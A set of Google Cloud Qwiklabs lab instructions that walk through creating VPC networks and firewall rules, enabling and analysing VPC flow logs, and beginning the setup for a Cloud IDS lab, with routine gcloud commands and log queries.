For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

##### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```


**Output:**

```
Credentialed accounts:
 - <myaccount>@<mydomain>.com (active)
</mydomain></myaccount>
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```


**Output:**

```
[core]
project = <project_id>
</project_id>
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

#### Task 1. Create VPC networks and instances

In this task, you create an automatic VPC network and custom VPC network, and some initial VPC instances in those networks.

1. On the Google Cloud Console title bar, click **Activate Cloud Shell** () to open Cloud Shell. If prompted, click **Continue**.
2. To create the network *mynetwork* with auto subnets, run the following command:

```
gcloud compute networks create mynetwork --subnet-mode=auto
```


**Note:** When an auto mode VPC network is created, one subnet from each region is automatically created within it. These automatically created subnets use a set of predefined IP ranges that fit within the 10.128.0.0/9 CIDR block.

You will now create a network with custom subnets. You can choose any private RFC 1918 CIDR block for the primary IP address range of the subnets.

1. To create the network *privatenet* with custom subnets, run the following command:

```
gcloud compute networks create privatenet \
--subnet-mode=custom
```


1. To create a custom subnet in the privatenet network, run the following command:

```
gcloud compute networks subnets create privatesubnet \
--network=privatenet --region=us-east4 \
--range=10.0.0.0/24 --enable-private-ip-google-access
```


1. To create some instances to use later for testing in all networks, run these commands:

```
gcloud compute instances create default-vm-1 \
--machine-type e2-micro \
--zone=us-east4-a --network=default
```


```
gcloud compute instances create mynet-vm-1 \
--machine-type e2-micro \
--zone=us-east4-a --network=mynetwork
```


```
gcloud compute instances create mynet-vm-2 \
--machine-type e2-micro \
--zone=us-central1-f --network=mynetwork
```


```
gcloud compute instances create privatenet-bastion \
--machine-type e2-micro \
--zone=us-east4-b  --subnet=privatesubnet --can-ip-forward
```


```
gcloud compute instances create privatenet-vm-1 \
--machine-type e2-micro \
--zone=us-east4-c  --subnet=privatesubnet
```


Click *Check my progress* to verify the objective.

Create VPC networks and instances


Check my progress


#### Task 2. Investigate the default network

In this task, you explore the default network and verify that the default-allow-ssh firewall rule is working. Later, you delete the default-vm-1 instance and default network because you no longer need it.

Return to the Cloud Console and view the firewall rules.

1. On the **Navigation menu**, click **VPC network > Firewall**.

The following four default rules are created for the default network:


Remember, all networks also have the following 2 rules, which are not displayed in the console:


To check that the default-allow-ssh firewall rule is working, ssh into the default-vm-1 instance in the default network and test it.

1. On the **Navigation menu**, click **Compute Engine > VM instances** to display a list of VM instances.
2. In the row for the **default-vm-1** instance, click **SSH**.

You should connect successfully via SSH to the instance because of the default-allow-ssh rule. You can ping `www.google.com` to test the egress connectivity. Press **Ctrl+C** to stop the ping.

##### Delete the default-vm-1 instance

Now delete the default-vm-1 instance because you no longer need it.

1. In the **Navigation menu**, click **Compute Engine > VM instances**, select the **default-vm-1** instance and then click **Delete**.
2. In the confirmation box, click **Delete**.

##### Delete the default network

**Note:** Because the default network allows relatively open access, we recommend that you delete it for production projects.

1. On the **Navigation menu**, click **VPC network > VPC networks** to display the list of VPC networks in the Cloud Console.
2. Click the **default** network to view the network details.
3. Click **Delete VPC Network**.
4. In the confirmation box, click **Delete**.
5. Wait for the network to be deleted and verify that the default network is no longer displayed on the VPC Networks page.

#### Task 3. Investigate the user-created networks

In this task, you explore the user-created networks to verify no ingress is allowed without custom firewall rules.

##### Verify that no ingress is allowed without custom firewall rules

Remember, all networks have the following 2 rules (which will not be displayed in the Console) to block all incoming traffic and allow all outgoing traffic. Unlike the default network, user-created networks do not have any other rules by default, so currently no inbound traffic is allowed.


1. On the **Navigation menu**, click **Compute Engine > VM instances** to display a list of VM instances.
2. In the row for **mynet-vm-1** or **mynet-vm-2**, click **SSH**.

You should **NOT** be able to connect via SSH to the instances.

You will now try to SSH into an instance from the Cloud Shell.

1. Switch back to or reopen Cloud Shell.
2. To try to ssh into the **mynet-vm-2** instance, run the following command:

```
gcloud compute ssh qwiklabs@mynet-vm-2 --zone us-central1-f
```


If prompted, type `Y` and press **Enter** twice to proceed.

We should **NOT** be able to connect via SSH to the instances. There is currently no inbound access allowed. Igonre the error message **ERROR: (gcloud.compute.ssh) [/usr/bin/ssh] exited with return code [255]**

#### Task 4. Create custom ingress firewall rules

In this task, you use Cloud Shell as your client host to test SSH connectivity to the instances. The external IP address of the Cloud Shell instance can be easily retrieved.

However, the IP address of your Cloud Shell instance can change if you close and reopen it, or if it is recycled due to inactivity. This should not be a problem during this lab. For a "real" project, you would allow the IP address of your SSH client host and there should not be a problem.

**Note:** As you just verified, the browser-based console SSH feature used to connect to VM instances does not currently work. If you want to allow that, you need a firewall rule that allows the source IP address. However, source IP addresses for browser-based SSH sessions are dynamically allocated by the Cloud Console and can vary from session to session.


For the feature to work, you must allow connections either from any IP address, or from Google's IP address range, which you can retrieve using public SPF records. Either of these options may pose unacceptable risks, depending on your requirements. Instead, you would allow the IP address of the SSH clients you are using to connect.

##### Allow SSH access from Cloud Shell

1. Switch back to or reopen Cloud Shell.
2. To retrieve the external IP address of the Cloud Shell instance, run the following commands:

```
ip=$(curl -s https://api.ipify.org)
echo "My External IP address is: $ip"
```


**Sample output** (your IP will be different):

```
My External IP address is: 35.229.72.135
```

1. To add a firewall rule that allows port 22 (SSH) traffic from the Cloud Shell IP address, run the following command:

```
gcloud compute firewall-rules create \
mynetwork-ingress-allow-ssh-from-cs \
--network mynetwork --action ALLOW --direction INGRESS \
--rules tcp:22 --source-ranges $ip --target-tags=lab-ssh
```


This firewall rule is also given a target tag of *lab-ssh*, which means it applies only to instances that are tagged with the lab-ssh tag.

1. To view the firewall rule in the Cloud Console, on the **Navigation menu**, click **VPC network > Firewall**.

It will look similar to the following, but your IP address will be different:


This firewall rule will be applied only to instances tagged with *lab-ssh*. It is currently not being applied to any instances.

**Note:** You have just created and applied a firewall rule using a tag. One issue with tags is that they must be added to instances and could possibly be added or removed inadvertently. Firewall rules can also be applied to instances by the service account used. These rules will be applied automatically to all instances that use the specified service account.

1. To add the lab-ssh network tag to the **mynet-vm-2** and **mynet-vm-1** instances, run the following commands in Cloud Shell:

```
gcloud compute instances add-tags mynet-vm-2 \
    --zone us-central1-f \
    --tags lab-ssh
gcloud compute instances add-tags mynet-vm-1 \
    --zone us-east4-a \
    --tags lab-ssh
```


##### Stateful firewalls

In VPC networks, firewall rules are stateful. So for each initiated connection tracked by allow rules in one direction, the return traffic is automatically allowed, regardless of any rules.

1. To ssh into the **mynet-vm-2** instance, run the following command in Cloud Shell:

```
gcloud compute ssh qwiklabs@mynet-vm-2 --zone us-central1-f
```


It will take several seconds to negotiate the SSH keys, but the connection should succeed. This verifies that the firewall rule is allowing the traffic.

1. Type `exit` to log off the **mynet-vm-2** instance.
2. To ssh into the **mynet-vm-1** instance, run the following command in Cloud Shell:

```
 gcloud compute ssh qwiklabs@mynet-vm-1 --zone us-east4-a
```


This connection should also succeed because the **mynet-vm-1** instance is in the same network, and the firewall rule you created is allowing access to all instances.

##### Allow all instances on the same network to communicate via ping

1. While still logged in to the **mynet-vm-1** instance, try pinging the **mynet-vm-2** instance with the command shown below. (Replace the *[PROJECT_ID]* with the PROJECT_ID for your lab exercise.)

```
 ping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
```


The ping command will not succeed. Even though the **mynet-vm-1** and the **mynet-vm-2** instances are in the same VPC network, all traffic is blocked by default unless there is a firewall rule allowing it.

1. Press **Ctrl+C** to stop ping if needed. Do not log out of the **mynet-vm-1** instance yet.
2. To open a new Cloud Shell window, click **Open a new tab** (**+**).
3. To add a firewall rule that allows ALL instances in the mynetwork VPC to ping each other, run the following command:

```
gcloud compute firewall-rules create \
mynetwork-ingress-allow-icmp-internal --network \
mynetwork --action ALLOW --direction INGRESS --rules icmp \
--source-ranges 10.128.0.0/9
```


**Note:** This firewall rule does not use a target-tag and therefore applies to all instances in the network by default. There is no need to tag any instances for this firewall to take effect. This kind of firewall rule is useful if all instances in a network need the same rule, but should also be used with caution because they affect all instances.

1. Switch back to the first Cloud Shell session that is connected to **mynet-vm-1** and run the ping again. This time it should work.

```
 ping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
```


Notice that the hostname *mynet-vm-2* resolved to the internal IP address of the instance. The internal IP will start with *10.132.0* (for example, *10.132.0.2*). Google Cloud resolves internal hostnames for you.

1. Press **Ctrl+C** to stop ping.
2. You can also try pinging the internal IP address directly and that will also work. Press **Ctrl+C** to stop ping.
3. To locate the external IP address of **mynet-vm-2**, on the **Navigation menu**, click **Compute Engine > VM instances**.
4. Click on **mynet-vm-2**, locate and copy the external IP address of the instance.
5. From the Cloud Shell session that is connected to **mynet-vm-1**, try to ping the external IP address of the **mynet-vm-2** instance:

```
 ping <external_ip_of_mynet-vm-2>
</external_ip_of_mynet-vm-2>
```


This should **NOT** work. When you ping the external IP address, the connection goes through the internet gateway, which causes the request to be NATed. The request is now coming from the *external* IP address of the mynet-vm-1 instance. The firewall rule is to only allow ICMP requests that come from *internal* IP addresses.

1. Press **Ctrl+C** to stop ping.

Click *Check my progress* to verify the objective.

Create custom ingress firewall rules


Check my progress


#### Task 5. Set the firewall rule priority

In this task, you set the firewall rule priority to deny ICMP traffic. You then verify that any traffic that does not match the rule priority is denied.

So far, all the rules created have been ingress allow rules, so the priority has not been important. Firewall rules can be both allow and deny, can specify ingress and egress, and have a priority from 0 to 65,535. If you do not set a priority, the default is 1,000. Rules are evaluated based on priority, starting from the lowest value. The first rule that matches gets applied.

1. In the first Cloud Shell session, verify that you are still connected to the **mynet-vm-1** instance. You can tell because the prompt will be: `qwiklabs@mynet-vm-1:~$`.

If not connected, use the following command to reconnect:

```
 gcloud compute ssh qwiklabs@mynet-vm-1 --zone us-east4-a
```


1. Verify that you can still ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
```


1. Press **Ctrl+C** to stop ping.
2. Switch to your second Cloud Shell window (or open a new one).
3. In the second Cloud Shell, create a firewall ingress rule to deny ICMP traffic from any IP with a priority of 500:

```
gcloud compute firewall-rules create \
mynetwork-ingress-deny-icmp-all --network \
mynetwork --action DENY --direction INGRESS --rules icmp \
--priority 500
```


1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance, and try to ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
```


It should no longer work. This new rule has a priority of 500, where the allow rule is 1,000.

1. Press **Ctrl+C** to stop ping.

Now change the deny rule to a priority of 2,000.

1. In the second Cloud Shell, modify the firewall rule just created and change the priority to `2000`:

```
gcloud compute firewall-rules update \
mynetwork-ingress-deny-icmp-all \
--priority 2000
```


1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance, and try to ping the **mynet-vm-2** instance again:

```
 ping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
```


This time it will work because the deny rule has a lower priority, so the allow rule is the first matching rule.

1. Press **Ctrl+C** to stop ping.

#### Task 6. Configure egress firewall rules

In this task, you create an egress firewall rule and set the priority to 10,000. You then verify that both ingress and egress rule allow that traffic.

1. From the second Cloud Shell window, list all the current firewall rules:

```
gcloud compute firewall-rules list \
--filter="network:mynetwork"
```


Currently, the VMs are still able to ping each other because the rule that denies ICMP has a higher priority than the allow ICMP rule.

Now try an egress rule.

1. Create a firewall egress rule to block ICMP traffic from any IP with a priority of `10000`:

```
gcloud compute firewall-rules create \
mynetwork-egress-deny-icmp-all --network \
mynetwork --action DENY --direction EGRESS --rules icmp \
--priority 10000
```


1. List all the current firewall rules again:

```
gcloud compute firewall-rules list \
--filter="network:mynetwork"
```


Notice that the egress rule priority is set to 10,000, which is much higher than the rules created earlier.

1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance and try to ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.us-central1-f.c.[PROJECT_ID].internal
```


**It should no longer work**. Even though the egress rule has a much higher priority of 10,000, it is still blocking traffic. This is because for traffic to be allowed, there must be both an ingress and egress rule allowing that traffic. The priority of ingress rules does not affect the priority of egress rules.

1. Press **Ctrl+C** to stop ping.

Click *Check my progress* to verify the objective.

Create a firewall rule with priority and egress firewall rule.


Check my progress


#### Congratulations!

In this lab, you did the following:

- Created an auto-mode network, a custom-mode network, and associated subnetworks.
- Investigated firewall rules in the default network, and then deleted the default network.
- Used firewall rule features for more precise and flexible control of connections.

### LAB - Configuring and Using VPC Flow Logs in Cloud Logging

#### Overview

In this lab, you will investigate [VPC flow logs](https://cloud.google.com/vpc/docs/flow-logs). VPC flow logs record network flows sent from or received by VM instances. These logs can be used for network monitoring, forensics, real-time security analysis, and even for expense optimization.

During this lab you enable VPC flow logging and use Cloud Logging to view the logs. Next, you perform network monitoring, forensics, and real-time security analysis, before finally, disabling VPC flow logging.

##### Objectives

In this lab, you learn how to:

- Enable VPC flow logging for a subnet.
- Access logs via Cloud Logging.
- Filter logs for specific subnets, VMs, ports, or protocols.
- Perform network monitoring, forensics, and real-time security analysis.
- Disable VPC flow logging.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

##### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```

Copied!

**Output:**

```
Credentialed accounts:
 - <myaccount>@<mydomain>.com (active)
</mydomain></myaccount>
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = <project_id>
</project_id>
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

#### Task 1. Enable VPC flow logging

In this task, you enable flow logging for two subnets. Flow logging can also be enabled in exactly the same manner for custom user-defined networks. Flow logging can also be enabled when you create a subnet in one step.

##### **Use gcloud in Cloud Shell to enable VPC flow logging on two subnets**

1. To enable flow logging in two subnets, run the following commands in Cloud Shell:

```
gcloud compute networks subnets update default \
--region us-central1 --enable-flow-logs \
--logging-metadata=include-all
```

Copied!

```
gcloud compute networks subnets update default \
--region europe-west4 --enable-flow-logs \
--logging-metadata=include-all
```

Copied!

Notice that you enabled VPC flow logging for the subnets in `us-central1` and `europe-west4`. None of the other subnets have flow logging enabled.

1. To create three instances in different subnets (to be used for later testing), run the following commands:

```
gcloud compute instances create default-us-vm \
--machine-type e2-micro \
--zone=us-central1-c --network=default
```

Copied!

```
gcloud compute instances create default-eu-vm \
--machine-type e2-micro \
--zone=europe-west4-a --network=default
```

Copied!

```
gcloud compute instances create default-ap-vm \
--machine-type e2-micro \
--zone=asia-south1-b --network=default
```

Copied!

**Note:** If you get a `ZONE_RESOURCE_POOL_EXHAUSTED` error, update the zone in the gcloud command and try running it again. For example, if `us-central1-a` is failing, try `us-central1-b`instead.

Click *Check my progress* to verify the objective.

Enable VPC flow logging on subnets and create instances


Check my progress


#### Task 2. Generate network traffic for testing

In this task, you create network traffic to test the connectivity between the instances.

1. In the Google Cloud Console, on the **Navigation menu**, click **Compute Engine > VM instances** to display a list of VM instances.
2. Record both the internal and external IP addresses of each instance. You will need these IPs later in this lab.

| **Instance**  | **Internal IP** | **External IP** |
| :------------ | :-------------- | :-------------- |
| default-ap-vm | `*****`         | `*****`         |
| default-eu-vm | `*****`         | `*****`         |
| default-us-vm | `*****`         | `*****`         |

1. In the row for the `default-us-vm` instance, click **SSH**.
2. When connected via SSH, issue the following commands:

```
sudo apt-get install -y host
host www.wikipedia.org 8.8.8.8
ping -c 5 default-eu-vm.europe-west4-a
ping -c 5 www.google.com
curl http://www.google.com
```

Copied!

These commands did the following:

- Installed the host DNS resolution utility.
- Performed a DNS lookup of www.wikipedia.org using the 8.8.8.8 DNS server.
- Pinged the **default-eu-vm** instance and [www.google.com](https://www.google.com/)
- Used curl to create an HTTP connection to [www.google.com](https://www.google.com/)

Next, you run the same commands as above, but instead of pinging the default-eu-vm from the default-us-vm, you ping the default-us-vm from the default-eu-vm.

1. Return to the Cloud Console, and in the row for the `default-eu-vm` instance, click **SSH**.
2. When connected via SSH, issue the following commands:

```
sudo apt-get install -y host
host www.wikipedia.org 8.8.8.8
ping -c 5 default-us-vm.us-central1-c
ping -c 5 cloud.google.com
curl http://www.google.com
```

Copied!

1. Return to the Cloud Console, and in the row for the `default-ap-vm` instance, click **SSH**.
2. When connected via SSH, issue the following commands:

```
sudo apt-get install -y host
host www.bitnami.com 8.8.8.8
curl http://www.bitnami.com
```

Copied!

#### Task 3. View flow logs in Cloud Logging

In this task, you view the VPC flow logs for all the projects in Cloud Logging.

##### **Access all flow logs**

1. In the Cloud Console, go to the **Navigation menu** > **Logging** > **Logs Explorer**. (If you do not see this menu option, then continue this lab, at step 3).
2. In the **Query** panel, under **All Resource**, click **Subnetwork** and then **Apply**.
3. Under **All Log names**, click **compute.googleapis.com/vpc_flows** and then **Apply**.

**Note:** If no log names appear for the above, try pasting in `compute.googleapis.com%2Fvpc_flows` instead.

1. Click **Run query**.
2. In the Query results panel, entries from the VPC flow logs appear. If you do not see **compute.googleapis.com/vpc_flows**, wait a few minutes for this log type to show up.

**Note:** This should show all the VPC flow logs for your project. Remember, you only have the flow logs enabled for two of the subnets.

1. Expand one of the log entries.
2. Within that log entry, expand `jsonPayload`, and then expand `connection`.

**Note:** Some entries do not have `jsonPayload` fields. You may need to open other entries until you find one that does.

1. Investigate the information about the connection; specifically notice that the port and IP address of both the source and destination have been logged.
2. Find a log that has `src_instance` in `jsonPayload`. Investigate the information about this src instance.

The `src_instance` may be one of your instances or an outside IP address if the traffic came from outside your VPC network.


1. Investigate any other information in this log entry or another.

#### Task 4. Perform advanced filtering

In this task, you perform advanced filtering using Query builder. You also explore access logs for specific source or destination IP, and for specific ports and protocols.

An advanced logs filter is a Boolean expression that specifies a subset of all the log entries in your project. A few things it can be used for include:

- Choosing log entries for specific VMs.
- Choosing log entries for specific source or destination ports.
- Choosing log entries for specific source or destination IP address.
- Choosing log entries specific protocols.

1. Click inside the **Query** box.
2. Remove the current query and paste in the following, replacing `<INSERT_PROJECT_ID>` with your Qwiklabs Google Cloud Project ID:

```
resource.type="gce_subnetwork"
log_name="projects/<INSERT_PROJECT_ID>/logs/compute.googleapis.com%2Fvpc_flows"
```

Copied!

1. Click **Run query**.

**Note:** For the remainder of this lab, be sure to always leave these two lines at the start of the filter. You will be adding additional lines after these two. If you accidentally delete or modify these two lines, copy them from above (be sure to change the project ID).

##### **Access logs for a specific source or destination IP address**

1. Add the following line to the end of the filter. Replace `Internal_IP_Of_default_us_vm` with the internal IP address of your `default_us_vm` instance (you recorded this earlier):

```
jsonPayload.connection.src_ip="Internal_IP_Of_default_us_vm"
```

Copied!

1. Click **Run query**.

You now see all the log entries where the source IP address is the internal IP address of the `default-us-vm` instance. These should be the same entries as for the earlier filter that showed the source instance of `default-us-vm`.

##### **Access logs for specific ports and protocols**

1. Delete the last line in the filter (the one matching `src_ip`) and replace it with the following line that will only show entries with a destination port of 22 (SSH):

```
jsonPayload.connection.dest_port=22
```

Copied!

1. Click **Run query** and observe the results. You should see three logs because you SSH-ed into the VMs three times.
2. Modify the last line of the filter to only show traffic with a destination port of 80 (HTTP):

```
jsonPayload.connection.dest_port=80
```

Copied!

1. Click **Run query** and observe the results.
2. Match multiple ports by replacing the last line and adding this statment with an `OR` to the end of the port filter:

```
jsonPayload.connection.dest_port=(80 OR 22)
```

Copied!

1. Change the last line in the filter to only show entries using the UDP protocol (protocol #17):

```
jsonPayload.connection.protocol=17
```

Copied!

1. Click **Run query** and observe the results.

You may see a few entries in the log. These would correspond to the DNS calls you made with the host utility.

1. Investigate one of the log entries and locate the destination port number that DNS uses.

**Note:** DNS uses port 53.

1. Modify the filter to show all entries with a protocol of 17 and destination port of 53:

```
jsonPayload.connection.protocol=17
jsonPayload.connection.dest_port=53
```

Copied!

1. Click **Run query** and observe the results.

**Note:** Currently, flow logs only monitor UDP (protocol #17) and TCP (protocol #6). Earlier, you generated some ICMP traffic on the instances using `ping`. ICMP is protocol #1. If you create a filter to show protocol #1, you will not see any entries. Try this if you want.

#### Task 5. Perform network monitoring and support real-time security analysis

In this task, you create a filter and use it to see whether any RDP traffic is attempting to access the VPC.

##### **Search for unexpected ports and protocols**

Because you are running Linux instances within the VPC network, you should not see any RDP traffic. However, there is a firewall rule within the default settings that allows RDP traffic from anywhere, and this means that someone or something on the internet could attempt to connect to your servers using the RDP protocol.

1. Modify the flow log filter to show all traffic with a destination port of 3389 (RDP). Be sure to leave the first two lines of the existing filter, but delete and replace the other lines with the following and click **Run query**:

```
jsonPayload.connection.dest_port=3389
```

Copied!

1. If you see any RDP traffic, investigate where the traffic is coming from. You may not see any RDP traffic, but it is common to see at least some. If you did not see any traffic, wait a few minutes and check again.

If you did see some RDP traffic, which often happens, that demonstrates how pervasive unwanted traffic can be on the internet. It also shows why ensuring that VPC networks and firewall rules are set up correctly is important.

By using the default VPC in this lab, with all of the default firewall rules, you saw the results of not fine-tuning these rules to help exclude unwanted traffic.

**Note:** It is a recommended best practice for production systems to use a custom VPC with very specific firewall rules and delete the default VPC.

**Note:** Another service that can help with issues like restricting unwanted traffic is [Google Cloud Armor](https://cloud.google.com/armor/). Google Cloud Armor delivers defense at scale against infrastructure and application Distributed Denial of Service (DDoS) attacks using Google's global infrastructure and security systems.

##### Create exports to support real-time security analysis

Flow logs can be exported to any destination that Cloud Logging export supports (Pub/Sub, BigQuery, etc.). Creating an export will export future matching logs to the selected destination, existing logs will not be exported.

Exporting logs to BigQuery allows for the BigQuery analysis tools to be used on your logs to perform analysis. Exporting logs to Pub/Sub allows your logs to be streamed to other applications, other repositories, or third parties.

When you create a Cloud export, the current filter will be applied to the export. This means that only events that match the filter will be exported. For example, if you have a filter that only displays traffic to the destination port 3389, only traffic that matches that filter will be exported.

This can help reduce the amount of data that is exported (which could lower costs) or allow for different exports depending on what the data contains. For this lab you will clear the filter and export all logs because you do not have much traffic.

1. Clear all the text in the query editor and click **Run query**.
2. Click **Actions** > **Create Sink**.
3. For "Sink name", type **FlowLogBQExport** and click **Next**.
4. For "Select sink service", select **BigQuery dataset**.
5. For "Select Bigquery dataset", select **Create new BigQuery dataset**.
6. For "Dataset ID", type `flowlogs_dataset`, and then click **Create dataset**.
7. Click **Create sink**. The Logs Router Sinks page appears.

You should be able to see the sink you created **(FlowLogBQExport)**. If you are unable to see the sink click on **Logs Router**.

1. On the right side, click the **More actions** menu () for your export and select **View sink details**.
2. Click **Cancel**.

**Note:** All future logs will now be exported to BigQuery. The BigQuery tools can now be used to perform analysis on the flow log data. You will perform a simple query in BigQuery later in the lab.

**Note:** You could also export log entries to Pub/Sub or Cloud Storage. Exporting to Pub/Sub can be useful if you want to flow through an ETL process before storing in a database **(Operations > Pub/Sub > Dataflow > BigQuery/Cloud Bigtable)**. Exporting to Cloud Storage will batch up entries and write them into Cloud Storage objects approximately every hour.

Now create an export to Pub/Sub.

1. On the Logs Router page, click **Create sink**.
2. For "Sink name", type **FlowLogPubSubExport**, and click **Next**.
3. Select "Select sink service" as **Cloud Pub/Sub topic**.
4. For "Select a Cloud Pub/Sub topic", select **Create a Topic**.
5. For Topic ID, type **FlowLogsTopic**, and then click **Create**.
6. Click **Create sink**.

The Logs Router Sinks page appears. You should be able to see the sink you created (FlowLogsTopic). If you are unable to see the sink click on **Logs Router**.

1. On the right side, click the **More actions** menu for your export and select **View sink details**.

This will show the filter that was present when the export was created.

1. Click **Cancel**.

You can now subscribe to the new Pub/Sub topic and receive notifications when new logs are available. This allows for the logs to be streamed to and integrated with a SIEM (Security Information and Event Management) tool.

SIEM tools are used to gain real-time operational insights and create audit reports using powerful visualization capabilities.

#### Task 6. Analyzing flow logs in BigQuery

In this task, you analyze flow logs in BigQuery.

**Note:** When you export logs to a BigQuery dataset, Cloud Logging creates dated tables to hold the exported log entries. Log entries are placed in tables whose names are based on the entries' log names.

1. In the Cloud Console, on the **Navigation menu**, click **BigQuery**.
2. In the navigation pane under **Explorer**, expand the project name to see the **flowlogs_dataset** dataset.
3. Expand the dataset to see the table with your exported flow logs.
4. Click on the table name that starts with `compute_googleapis_com_vpc_flows_` and review the schemas and details of the tables that are being used.

**Note:** If you don't see that table appear in the dataset, open the navigation menu and click "Cloud Overview" or any other service. Then, open the navigation menu and select BigQuery and try to find the table again (it sometimes takes a minute or two for the table to appear in the dataset).

1. Click **Query**.
2. Delete the text provided in the **New query** window and paste in the query below:

```
#standardSQL
SELECT
   jsonPayload.connection.dest_ip,
   resource
FROM
   `flowlogs_dataset.compute_googleapis_com_vpc_flows*` WHERE
   jsonPayload.connection.dest_port = 22
LIMIT 1000
```

Copied!

1. Click **Run**.

This query returns information about traffic connecting to port 22.

After a couple of seconds, the results are displayed. You should see one or two entries, which is the activity you generated in this lab. Remember, BigQuery is only showing activity since the export was created.

**Note:** If you did not see any results, you may need to generate some traffic to the instances. To do so, go to the **Navigation menu > Compute Engine** and click **SSH** for each instance. Then try the query again.

Click *Check my progress* to verify the objective.

Create exports and analyze flow logs in BigQuery


Check my progress


#### Task 7. Disable flow logging

In this task, you disable VPC flow logging. VPC flow logging can be turned off with the `--no-enable-flow-logs` option.

1. Try disabling it on one of your subnets by running the following command in the Cloud Shell terminal:

```
gcloud compute networks subnets update default \
--region europe-west4 --no-enable-flow-logs
```

Copied!

1. You can verify that it has been disabled by viewing the VPC in the Cloud Console. On the **Navigation menu**, click **VPC network > VPC networks**. If prompted click on **LEAVE**.

#### Task 8. Review

In this lab, you enabled VPC flow logging for a subnet. You accessed logs via Cloud Logging. You also filtered logs for specific subnets, VMs, ports, and protocols. Next, you performed network monitoring, forensics, and real-time security analysis. Finally, you disabled VPC flow logging.

### LAB - Getting Started with Cloud IDS

#### Overview

In this lab, you deploy [Cloud Intrusion Detection System (Cloud IDS)](https://cloud.google.com/intrusion-detection-system), a next-generation advanced intrusion detection service that provides threat detection for intrusions, malware, spyware, and command-and-control attacks. You simulate multiple attacks and view the threat details in the Google Cloud console.


#### Objectives

In this lab, you learn how to perform the following tasks:

- Build out a Google Cloud networking environment as shown in the previous diagram.
- Create a Cloud IDS endpoint.
- Create two virtual machines using gcloud CLI commands.
- Create a Cloud IDS packet mirroring policy.
- Simulate attack traffic from a virtual machine.
- View threat details in the Cloud console and Cloud Logging.

#### Setup

##### Before you click the Start Lab button

**Note: Read these instructions.**


Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources will be made available to you.

This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.

##### What you need

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).
- Time to complete the lab.

**Note:** If you already have your own personal Google Cloud account or project, do not use it for this lab.

**Note:** If you are using a Pixelbook, open an Incognito window to run this lab.

##### How to start your lab and sign in to the Console

1. Click the **Start Lab** button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.

   

2. Copy the username, and then click **Open Google Console**. The lab spins up resources, and then opens another tab that shows the **Choose an account** page.

   **Note:** Open the tabs in separate windows, side-by-side.

3. On the Choose an account page, click **Use Another Account**. The Sign in page opens.

   

4. Paste the username that you copied from the Connection Details panel. Then copy and paste the password.

**Note:** You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).

1. Click through the subsequent pages:

- Accept the terms and conditions.
- Do not add recovery options or two-factor authentication (because this is a temporary account).
- Do not sign up for free trials.

